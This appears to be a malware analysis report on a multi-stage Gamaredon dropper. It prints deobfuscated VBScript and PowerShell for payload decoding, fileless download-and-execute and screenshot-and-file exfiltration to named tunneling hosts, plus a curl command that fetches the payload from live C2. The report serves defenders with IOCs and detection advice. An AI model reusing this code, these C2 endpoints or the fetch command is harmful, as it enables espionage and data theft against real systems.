


# 1. Executive Summary

This report details the analysis of a multi-stage malicious HTML Application (HTA) identified as a dropper associated with **Gamaredon** (also known as Primitive Bear, Shuckworm, or Armageddon). The threat actor is a state-sponsored group primarily targeting Ukrainian government and military organizations, though their indiscriminate spreading techniques often affect broader targets.

The infection chain commences with a heavily obfuscated HTA file that drops a VBScript downloader. Through a series of handoffs involving intermediate VBScript bridges, the attack culminates in the execution of a fileless PowerShell espionage module.

**Key Findings:**

- **Sophisticated Evasion:** The malware abuses legitimate internet services—including Cloudflare Workers, Microsoft Dev Tunnels, and Loophole—to tunnel Command and Control (C2) traffic. This technique renders standard IP/Domain blocklists ineffective.
- **Resilient Infrastructure:** The malware employs a "Loop of Death" connection strategy, rotating through hardcoded IPs, dynamic domains, and third-party lookups (via check-host.net) to resolve C2 addresses.
- **Espionage Capabilities:** The final payload is designed for rapid reconnaissance. It captures screenshots (with active cursor position), enumerates files, maps network drives, and profiles installed security software.
- **Living-off-the-Land (LotL):** The attack relies entirely on native Windows utilities (mshta.exe, wscript.exe, powershell.exe), leaving minimal forensic footprints on the disk.

The analyzed sample represents a high-severity threat due to its ability to bypass perimeter firewalls and its focus on immediate data exfiltration.

# 2. Technical Analysis 

## 2.1 Stage 1: HTA Dropper
```powershell
Get-FileHash .\gamaredon.hta

Algorithm       Hash                          
---------       ----                                                              
SHA256          AA572532AB1C8A731E7BA32E97BA180268EEE8E6A74A2B9C4DC3EFB669EDB9AF
```

The file gamaredon.hta is an HTML Application containing a heavily obfuscated VBScript. The script employs string concatenation, variable randomization, and dead-code insertion (junk loops and arithmetic) to evade static analysis.

After manual deobfuscation, the script was identified as a **dropper**. The execution flow consists of four distinct phases: Command Construction, Payload Decoding, File Dropping, and Execution.

### **File Overview**

- **File Name:** `gamaredon.hta`
- **File Type:** HTML Application (HTA) containing embedded VBScript
- **SHA-256:** `AA572532AB1C8A731E7BA32E97BA180268EEE8E6A74A2B9C4DC3EFB669EDB9AF`
- **Total Lines:** ~1205
- **Purpose:** Downloader / Stage-1 loader used to fetch or reconstruct a **second-stage VBScript payload**


### A. Entry Point and Command Construction

The entry point of the script is `pyramidlHU/func_main`. Its primary purpose is to reconstruct the execution command string character by character. This is done to prevent simple string matching (like YARA rules) from detecting the intent to launch wscript.exe.

```vbscript
Sub func_main
    on error resume next

    var_wscript = var_wscript + "ws"
    var_wscript = var_wscript + "cri"
    var_wscript = var_wscript + "pt"
    var_wscript = var_wscript + "."
    var_wscript = var_wscript + "ex"
    var_wscript = var_wscript + "e "

    var_wscript_argv = var_wscript_argv + " //"
    var_wscript_argv = var_wscript_argv + "e"
    var_wscript_argv = var_wscript_argv + ":vb"
    var_wscript_argv = var_wscript_argv + "scri"
    var_wscript_argv = var_wscript_argv + "pt "
    var_wscript_argv = var_wscript_argv + "//b "

    func_execute_stage2 var_wscript, """" & allegianceLBS & """" & var_wscript_argv
End Sub

```

- `"ws" + "cri" + "pt" + "." + "ex" + "e "`  
    → **`wscript.exe`**
- `//e:vbs` → force VBScript engine
- `//b` → run in batch mode without prompts

This argument is critical. It forces the interpreter to handle the target file as VBScript, regardless of the file extension.

Once assembled, it calls `func_execute_stage2()` with:
- the string `"wscript.exe"`
- the path to the dropped Stage-2 script (returned by `allegianceLBS()`)

### B. Payload Decoding

The function `jobsN2A` contains the embedded payload in a Base64 string. It utilizes `Microsoft.XMLDOM` to decode the string into binary data. A secondary helper function, `fitsGXt`, uses `ADODB.Stream` to convert that binary data into a UTF-8 text string.

```vbscript
Function jobsN2A()
    on error resume next

    var_base63_encoded = "ZGltIHNob3J0c2ZHRiwg----------snip-------------Ig0K"

    shuttersQI = "msxml2.domdocument.3.0"
    needleworkBx3 = "base64"

    noblesr9n = "bin.base64"

    set pigb38 = createobject(shuttersQI).createelement(needleworkBx3)
    pigb38.datatype = noblesr9n
    pigb38.text = var_base63_encoded

    jobsN2A = fitsGXt(pigb38.nodetypedvalue)
End Function

```

1. A hard-coded Base64 string (`var_base63_encoded`) contains the malware’s second stage.
2. It creates an MSXML Base64 element:
    - `msxml2.domdocument.3.0`
    - Element type: `"base64"`
3. Sets its datatype to `"bin.base64"` so MSXML automatically decodes it.
4. Passes the decoded binary bytes to `fitsGXt()` for UTF-8 conversion.
### C.  Binary-to-Text Converter

```vbscript
Function fitsGXt(blouseqeV)
    on error resume next

    set leaderMsr = createobject("adodb.stream")
    leaderMsr.type = 1
    leaderMsr.open
    leaderMsr.write blouseqeV

    leaderMsr.position = 0
    leaderMsr.type = 2
    leaderMsr.charset = "utf-8"

    fitsGXt = leaderMsr.readtext
End Function
```

This function converts the raw Base64-decoded bytes into readable **UTF-8 text**, which is the final VBS payload.

Workflow:

1. Writes the binary data into an `ADODB.Stream` object.
2. Switches the stream to **text mode**.
3. Sets the charset to UTF-8.
4. Outputs the decoded Stage-2 script as a string.

This acts as the script’s **decompression/unpacking mechanism**.

### D. File Dropper
The function `allegianceLBS` handles writing the decoded payload to the disk.

```vbscript
Function allegianceLBS()
    on error resume next

    var_wscirpt_1 = "WScript.Shell"
    var_temp_location = "%TEMP%"

    scornlN6 = "Scripting.FileSystemObject"

    Set var_create_object_1 = CreateObject(var_wscirpt_1)
    Set embarrasspea = CreateObject(scornlN6)

    var_file_name = "\ricebG3"
    var_file_loc = var_create_object_1.ExpandEnvironmentStrings(var_temp_location) & var_file_name

    Set halfwayP4K = embarrasspea.CreateTextFile(var_file_loc, true)
    halfwayP4K.Write jobsN2A
    halfwayP4K.Close

    allegianceLBS = var_file_loc
End Function
```

- Creates standard COM objects:
    - `WScript.Shell`
    - `Scripting.FileSystemObject`
- Resolves `%TEMP%` to a fully qualified path.
- Drops the Stage-2 script to:
```
%TEMP%\ricebG3
```

- Writes the output of `jobsN2A()` (the decoded VBS payload) into that file.
- **Extensionless File:** The malware intentionally saves the file **without a file extension** (e.g., .vbs). This is a defensive evasion technique. Many security solutions scan specific extensions or look for executable headers. By saving it as a generic file and using `//e:vbscript` later, it bypasses basic filters.

### E. Execution

```vbscript
Function func_execute_stage2(w_script, wscript_argv)
    On Error Resume Next

    shell_exe_app = "Shell.Application"
    Set create_object = CreateObject(shell_exe_app)

    ' create_object.ShellExecute w_script, wscript_argv
    Wscript.Echo w_script, wscript_argv
End Function
```
This function is responsible for executing the dropped Stage-2 VBScript using `ShellExecute`.

- Creates the `Shell.Application` COM object.
- Intended behavior (commented in your sanitized sample):
```vbscript
create_object.ShellExecute "wscript.exe", "<TEMP>\ricebG3 //e:vbs //b"
```
- Would run Stage-2 silently, without dialog boxes.

The ShellExecute method is triggered to run the constructed command. This transitions the infection chain from the HTA context (controlled by mshta.exe) to the WScript context. The process tree will show mshta.exe spawning wscript.exe.

Cleaning and de-obfuscating this Stage-1 HTA took approximately one hour. After commenting out the `ShellExecute` call and running the script in a controlled environment, we were able to observe the exact command it intended to execute:
```powershell
wscript.exe  "C:\Users\Profzzor\AppData\Local\Temp\ricebG3" //e:vbscript //b
```
confirming both the file it drops into the `%TEMP%` directory and the method used to launch the Stage-2 payload.
## 2.2 Stage 2: VBScript Downloader (ricebG3)

```powershell
Get-FileHash .\ricebG3

Algorithm       Hash
---------       ---- 
SHA256          46D43BEB0BF73BF805C319F4D82B627907046A4C6F18AD1EE9B0B7A59CBE96B9
```

### File Overview

- **File Name:** `ricebG3`  
- **File Type:** Obfuscated VBScript (Stage-2 payload dropped by `gamaredon.hta`)  
- **SHA-256:** `46D43BEB0BF73BF805C319F4D82B627907046A4C6F18AD1EE9B0B7A59CBE96B9`  
- **Total Lines:** ~5022  
- **Purpose:** Fully functional **Stage-2 downloader/backdoor**, responsible for beaconing, fingerprinting the machine, rotating through multiple C2 infrastructures, downloading a Base64-encoded Stage-3 payload, decoding it, and executing it via `ExecuteGlobal`.



### A. Victim Fingerprinting
Upon execution, the script immediately generates a unique identifier for the infected machine. This ID is composed of the Computer Name and the Volume Serial Number of the system drive. This allows the attackers to track individual infections and serve specific payloads to high-value targets.
```vbscript
Function GenerateSystemFingerprint()
    ' Retrieves System Drive (e.g., C:)
    drive_path = createobject("WScript.Shell").expandenvironmentstrings("%systemdrive%")
    
    ' Retrieves the Drive Serial Number
    serial_num = createobject("Scripting.FileSystemObject").getdrive(drive_path).serialnumber
    
    ' Converts to Hex for the ID
    GenerateSystemFingerprint = hex(serial_num)
End Function
```

### B. C2 Communication & User-Agent Construction

The malware constructs a custom User-Agent string. This is a critical network indicator. It appends the Victim ID (generated in step A) directly into the User-Agent header, allowing the C2 server to identify the victim simply by looking at the HTTP headers.

```vbscript
' Pattern: Mozilla/5.0... Firefox/77.0::/.[RandomString]/.[ComputerName]_[DriveSerialHex]::/./.
BuildUserAgent = defaultUserAgentPrefix & GetComputerName & "_" & GenerateSystemFingerprint & "::/./." & ...
```
The script sends GET requests with specific headers:

- User-Agent: Contains the Victim ID.
- Cookie: Hardcoded to `missionaryZ0w`.
- Content-Length: Hardcoded to 2817 (even for GET requests, which is anomalous).

### C. C2 Infrastructure & Redundancy

The script exhibits a highly resilient "Loop of Death" trying to reach a Command and Control server. It rotates through four different mechanisms to find a working C2. If one fails, it sleeps and tries the next.

```vbscript
Dim c2Server_IP_1
c2Server_IP_1 = "http://5.181.2.158"

Dim c2Server_HTTPS
c2Server_HTTPS = "https://long-king-02b7.5ekz2z6pjk.workers.dev"

Dim protocolHTTPS
protocolHTTPS = "https://"

Dim c2Domain_YouAreSilent
c2Domain_YouAreSilent = "youaresilent.ru"

Dim ipInfoLookupURL
ipInfoLookupURL = "https://check-host.net/ip-info?host=tillthesunrise.sytes.net"
```

1. **Cloudflare Workers:** (.workers.dev) - Uses legitimate Cloudflare infrastructure to proxy traffic, hiding the actual backend server.
2. **Direct IP:** (5.181.2.158) - A fallback hardcoded IP address.
3. **Third-Party Resolver:** It queries check-host.net (a legitimate IP checking service) to resolve the hostname tillthesunrise.sytes.net.
    - Tactical Significance: This evades local DNS blocklists. If the organization blocks sytes.net, the malware still works because the DNS request goes to check-host.net (which is likely whitelisted). The script parses the HTML response using Regex (geneXlf) to extract the current IP of the C2.
4. **Domain Generation:** It constructs URLs using youaresilent.ru.
### D. Payload Download & Fileless Execution

Once a connection is established, the C2 server responds with a payload. The script checks if the response length is greater than 85 bytes (filtering out empty or error responses).

```vbscript
' Clean the response (remove carriage returns/line feeds)
learntYXj = RemoveSubstring(learntYXj, vbcr)

' Decode Base64 payload
set xml_node = createobject("msxml2.domdocument.3.0").createelement("base64")
xml_node.datatype = "bin.base64"
xml_node.text = learntYXj
byteData = xml_node.nodetypedvalue

' Convert to Text
meansjqq = ConvertByteArrayToText(byteData)

' FILELESS EXECUTION
ExecuteGlobal(meansjqq)
```

- **Fileless Persistence:** The Stage 3 payload is **never written to the disk**.
- **ExecuteGlobal:** This command executes the downloaded string immediately within the current VBScript memory context. This makes forensic recovery difficult if the machine is rebooted, as the payload exists only in RAM.

## 2.3 C2 Network Analysis & Verification

Dynamic analysis of the Stage-2 script revealed a robust communication protocol designed to retrieve the next-stage payload. The malware issues HTTP GET requests to multiple hard-coded command-and-control (C2) endpoints using a rotating infrastructure strategy.
### A. Traffic Characteristics

The requests are constructed dynamically using string concatenation, randomized file extensions, and environment-derived identifiers.

```http
GET https://long-king-02b7.5ekz2z6pjk.workers.dev/t.rar HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv.77.0) Gecko/20100101 Firefox/77.0::DESKTOP-5PSV9GH_D41AB5C8::/.vpreviewL5n/./https://long-king-02b7.5ekz2z6pjk.workers.dev
Cookie: missionaryZ0w
Content-Length: 2817
```
*Request to Cloudflare Workers (Primary C2)*
```http
GET http://5.181.2.158/k.avi
user-agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv.77.0) Gecko/20100101 Firefox/77.0::DESKTOP-5PSV9GH_D41AB5C8::/.vpreviewL5n/./http://5.181.2.158
Cookie: missionaryZ0w
Content-Length: 2817
```
*Request to Direct IP C2 Fallback*
### B. Analysis of Network Indicators

- **Rotating C2 Infrastructure:** The malware cycles through a list of primary, fallback, and domain-masqueraded servers. This ensures resiliency; if one IP is blocked, the malware shifts to a Cloudflare Worker or a dynamic domain.
- **Randomized File Extensions:** Requests append misleading extensions such as .rar, .avi, .jpg, and .html. Despite the extension, the server always returns the same Base64-encoded VBScript payload.
- **Custom User-Agent (Fingerprinting):** The User-Agent string is a composite identifier embedding:
    
    - Browser signature (spoofed Firefox)
    - System Name (e.g., `DESKTOP-5PSV9GH`)
    - Volume Serial Number
    - Current C2 URL
- **Cookie Header:** A constant cookie value (`missionaryZ0w`) is used as an authentication token or campaign identifier.
### C. Manual Payload Retrieval (Verification)

To validate the C2 infrastructure and confirm the behavior of the downloader, a manual request was issued replicating the Stage-2 logic:

```bash
curl -s 'https://long-king-02b7.5ekz2z6pjk.workers.dev/t.rar' \
  -H "user-agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv.77.0) Gecko/20100101 Firefox/77.0::DESKTOP-5PSV9GH_D41AB5C8::/.vpreviewL5n/./https://long-king-02b7.5ekz2z6pjk.workers.dev" \
  -H "Cookie: missionaryZ0w" \
  -H "Content-Length: 2817"
```
**Result:** The server responded with the raw Stage-3 payload.
### D. Payload Decoding Routine

The downloaded content contains obfuscation markers (&&) and embedded CR/LF characters. The malware (and our analysis) must clean this before decoding.
```vbscript
' Removal of junk characters and whitespace
learntYXj = RemoveSubstring(learntYXj, vbcr)
learntYXj = RemoveSubstring(learntYXj, vblf)
learntYXj = RemoveSubstring(learntYXj, "&&")

' Base64 Decoding
set stateWj1 = createobject("msxml2.domdocument.3.0").createelement("base64")
stateWj1.datatype = "bin.base64"
stateWj1.text = learntYXj
byteData = stateWj1.nodetypedvalue

meansjqq = ConvertByteArrayToText(byteData)
```
By replicating this routine manually, the Base64 blob decoded successfully, revealing the full **Stage-3 VBScript**. This confirmed that the C2 was active and serving payloads at the time of analysis.

## 2.4 Stage 3: VBScript to PowerShell Handoff

```powershell
Get-FileHash .\stage3.vbs

Algorithm       Hash 
---------       ----
SHA256          A8D4CA5E8C844B44481387BCA57FB1E441992AF0AB4C9A7578123CDDBDA5214A
```
### File Overview
- **File Name:** `stage3.vbs` (Derived name for analysis)
- **File Type:** Obfuscated VBScript
- **SHA256:** `A8D4CA5E8C844B44481387BCA57FB1E441992AF0AB4C9A7578123CDDBDA5214A`
- **Purpose:** Decodes and executes a PowerShell command to launch the final backdoor.



### A. Obfuscation Technique: ASCII Mapping

Unlike the previous stages which relied on string chopping, this stage utilizes integer-to-character mapping to hide its intent. The script defines a list of variables containing ASCII values and uses a helper function `dJXyG` (an alias for the native `Chr` function) to reconstruct strings at runtime.

```vbscript
noWAo = 45   ' ASCII for "-"
KREug = 101  ' ASCII for "e"
...
sVWlf = 104  ' ASCII for "h"

' Helper function wrapping Chr()
function dJXyG(ByOuC)
    dJXyG = Chr(ByOuC)
end function

' Reconstructing "shell"
wPiVj = dJXyG(115) ' s
JTdoC = dJXyG(104) ' h
oqxYD = wPiVj + JTdoC + ... ' "shell"
```

By mapping these integers, the script reconstructs the string wscript.shell into variable `PCgzs`. This prevents static analysis tools from seeing the shell instantiation command in plain text.

### B. Command Reconstruction

The script concatenates the Base64 payload stored in variable `GTHTp` with PowerShell execution arguments constructed from the ASCII variables.

```vbscript
' GTHTp contains the Base64 PowerShell Blob
GTHTp = "DQAKAGYAdQBu..." 

' REWdC becomes: powershell -nol -nop -enc
REWdC = XCBhL + NEfbz + ... 

' Appends the Base64 payload
REWdC = REWdC + lnmIo + GTHTp
```

### C. Execution Mechanism

The script initializes the `WScript.Shell` object and executes the reconstructed command.
```vbscript
set hGaTO = fNgpO       ' fNgpO is WScript.Shell
hGaTO.Run docsn, 0      ' docsn is the full PowerShell command
```
- **0 Parameter:** The second argument to the .Run method is 0. This specifies SW_HIDE, meaning the PowerShell window will spawn in a **hidden state**, completely invisible to the user.
- **Flags Used:**
    - -nol (NoLogo): Hides copyright information.
    - -nop (NoProfile): Skips loading the user's PowerShell profile (speeds up execution and avoids profile-based logging).
    - -enc (EncodedCommand): Accepts a Base64 encoded string as the command.
### D. Dynamic Validation

Execution of the script in a controlled sandbox resulted in the following process spawning:

```powershell
PS C:\Users\Profzzor\Desktop> cscript.exe .\stage3.vbs
Microsoft (R) Windows Script Host Version 5.812
Copyright (C) Microsoft Corporation. All rights reserved.

powershell.exe -nol -nop -enc DQAKAGYAdQBuAGMAdABpAG8AbgAgAFQAagBxAGoAegAoACkAewANAAoACQB0AHIAeQB7AA0ACgAJAAkAJABCAHUAegBmAHIAIAA9ACAAZQBLAEgAUQBIAbgAgACIAIgA7AA0ACgAJAH0ADQAKAH0ADQAKAA0AB5ACkAOwANAAoADQAKA
-----------snip----------
A9ACAAJABqAGYAdgB5AEIAfQA7AA0ACgAJAAkACQAJAAkADQAKACQAQwBKAFQAWABvACAAPQAgAGIASQBhAHQAdgAoACQAdgBkAG8AawB5ACkAOwANAAoADQAKAFMAdABBAFYAUAAoACQAQwBKAFQAWABvACkAOwANAAoAZQB4AGkAdAA7AA0ACgA=
```
This confirms that **Stage-3 is a PowerShell loader**, and the VBScript’s only purpose is to reconstruct and execute a PowerShell command in encoded (`-enc`) form. The Base64 payload inside this PowerShell command represents **Stage-4**, the next step in the infection chain.

## 2.5 Stage 4: PowerShell Info-Stealer

```powershell
Get-FileHash .\stage4_clean.ps1

Algorithm       Hash
---------       ----
SHA256          BF985A730ADEFEDB740E1C7CA1D9E6BB029EBFBC04BB0136155956FBDFAB6D3F
```

### File Overview
- **File Name:** stage4_clean.ps1 (Decoded from Stage 3)
- **File Type:** Deobfuscated PowerShell Script
- **SHA256:** `BF985A730ADEFEDB740E1C7CA1D9E6BB029EBFBC04BB0136155956FBDFAB6D3F`
- **Purpose:** Surveillance, data theft, and exfiltration via tunneling services.

### A. Data Collection Capabilities

The script functions as a comprehensive information stealer. Upon execution, it aggregates data into a Hashtable which is later converted to a NameValueCollection for HTTP POST transmission.

The malware collects the following specific data points:

1. **Desktop Screenshots ($Key_Screenshot = "img"):**
    - It captures the full primary monitor.
    - Notably, it manually **draws the mouse cursor** onto the screenshot. This suggests the attackers are interested in the user's active interaction context, not just the static display.
    - The image is converted to a Byte Array and then to a Base64 string.
        
2. **File System Enumeration ($Key_DirectoryTree = "install"):**
    - It recursively lists all directories and files on the user's **Desktop**.
    - It also enumerates all available **PSDrives**, calculating Used/Free space in GB.

3. **Security Reconnaissance ($Key_SystemInfo = "share"):**
    - **Antivirus Detection:** Queries WMI (root\SecurityCenter2) to identify installed Antivirus products.
    - **Process List:** Enumerate all running processes (ps).
    - **System Metadata:** Parses the output of the legacy systeminfo command to grab OS version, boot time, and hotfixes.
### B. C2 Infrastructure: Tunneling Service Abuse

The exfiltration mechanism (ExfiltrateData) is highly resilient. It does not communicate with a standard malicious domain. Instead, it abuses **legitimate tunneling services**.

```powershell
$C2_URL_Primary = "https://bpwnm075-80.use.devtunnels.ms"
$C2_URL_Secondary = "https://cake-wonderful-chamber-take.trycloudflare.com"
$C2_URL_Tertiary = "https://bcc48d9afa97b5bb8275ff047645e935.loophole.site"

try {
    # Attempt 1: Microsoft Dev Tunnels
    $hoPPc.UploadValues($C2_URL_Primary + "/info/", $VWxjU);
} catch {
    try {
        # Attempt 2: Cloudflare Argo Tunnel
        $hoPPc.UploadValues($C2_URL_Secondary + "/info/", $VWxjU);
    } catch {
        # Attempt 3: Loophole Site
        $hoPPc.UploadValues($C2_URL_Tertiary + "/info/", $VWxjU);
    }
}
```
- **Microsoft Dev Tunnels (devtunnels.ms):** A service for developers to expose local ports. Traffic to this domain is often trusted by enterprise firewalls.
- **Cloudflare Tunnels (trycloudflare.com):** Uses Cloudflare's edge network, masking the attacker's true backend IP.
- **Loophole (loophole.site):** Another port forwarding service.
### C. Data Exfiltration Method
The collected data is packed and sent via a single **HTTP POST** request.

```powershell
$CollectedDataHashtable = @{
    "img"     = $ScreenshotData; 
    "name"    = $MachineID; 
    "share"   = $AntivirusAndSystemInfo; 
    "desktop" = $DesktopFileList
    # ... other keys
};

# Sends the data as application/x-www-form-urlencoded
$hoPPc.UploadValues($URL, $CollectedDataNameValueCollection);
```
- **Method:** UploadValues triggers a POST request.
- **Format:** The body of the request will be key=value pairs.
- **Size:** Because it includes a Base64 screenshot, this POST request will be large (several hundred KB to MB).

# 3. Conclusion

The analysis of gamaredon.hta confirms a classic yet evolving infection chain typical of the Gamaredon group. The extensive use of VBScript obfuscation, specifically the "junk code" insertion and string concatenation, matches the group's long-standing Pterodo (Pteranodon) toolset signatures.

However, the analysis highlights a significant evolution in their network infrastructure. The shift from relying solely on Dynamic DNS (DDNS) to abusing legitimate tunneling services (specifically **Microsoft Dev Tunnels** and **Cloudflare Argo**) represents a tactical improvement. This allows the attacker's traffic to blend in with legitimate developer and web traffic, complicating detection efforts.

Furthermore, the "Fileless" nature of the Stage 3 and Stage 4 payloads—which reside only in memory after being fetched—demonstrates the group's focus on anti-forensics. Detection logic must focus on behavioral indicators (e.g., wscript.exe spawning powershell.exe with hidden window flags) and network anomalies (e.g., non-browser processes communicating with devtunnels.ms or check-host.net) rather than static file signatures alone.

# Appendix A: Indicators of Compromise (IOCs)

## A.1 File Hashes (SHA256)

| Description                              | SHA256 Hash                                                      |
| ---------------------------------------- | ---------------------------------------------------------------- |
| **Stage 1: HTA Dropper** (gamaredon.hta) | AA572532AB1C8A731E7BA32E97BA180268EEE8E6A74A2B9C4DC3EFB669EDB9AF |
| **Stage 2: VBS Downloader** (ricebG3)    | 46D43BEB0BF73BF805C319F4D82B627907046A4C6F18AD1EE9B0B7A59CBE96B9 |
| **Stage 3: VBS Bridge** (Memory Only)    | A8D4CA5E8C844B44481387BCA57FB1E441992AF0AB4C9A7578123CDDBDA5214A |
| **Stage 4: PS1 Stealer** (Memory Only)   | BF985A730ADEFEDB740E1C7CA1D9E6BB029EBFBC04BB0136155956FBDFAB6D3F |

## A.2 Network Indicators (C2 & Infrastructure)

**Stage 2 (Downloader) Endpoints:** 

| Domain / IP                             | Type               | Purpose                     |
| --------------------------------------- | ------------------ | --------------------------- |
|  5.181.2.158                            | IP Address         | Payload Delivery (Fallback) |
|  long-king-02b7.5ekz2z6pjk.workers.dev  | Cloudflare Worker  | Payload Delivery (Primary)  |
|  youaresilent.ru                        | Domain             | Payload Delivery            |
|  tillthesunrise.sytes.net               | Dynamic DNS        | C2 IP Resolution Target     |
|  check-host.net                         | Legitimate Service | Abused for IP Resolution    |

**Stage 4 (Exfiltration) Endpoints:**  

| Domain                                           | Type                 | Purpose           |
| :----------------------------------------------- | :------------------- | :---------------- |
|  bpwnm075-80.use.devtunnels.ms                   | Microsoft Dev Tunnel | Data Exfiltration |
|  cake-wonderful-chamber-take.trycloudflare.com   | Cloudflare Tunnel    | Data Exfiltration |
|  bcc48d9afa97b5bb8275ff047645e935.loophole.site  | Loophole Tunnel      | Data Exfiltration |

**Network Signatures:**
- **User-Agent Pattern:** `Mozilla/5.0 ... Firefox/77.0::[ComputerName]_[DriveSerialHex]::/./[C2_URL]`
- **Hardcoded Cookie:** `missionaryZ0w`
- **Traffic Anomaly:** HTTP GET requests with `Content-Length 2817` (Unusual for GET).

## A.3 Host-Based Indicators

| Path / Artifact                             | Description                                 |
| ------------------------------------------- | ------------------------------------------- |
| `%TEMP%\ricebG3`                            | Dropped VBScript file (No extension)        |
| `wscript.exe //e:vbscript //b`              | Process execution argument pattern          |
| `powershell.exe -nol -nop -enc`             | Spawning from wscript.exe (Hidden window)   |
| `HKEY_CURRENT_USER\Console\WindowsResponby` | Registry key queried for persistence/config |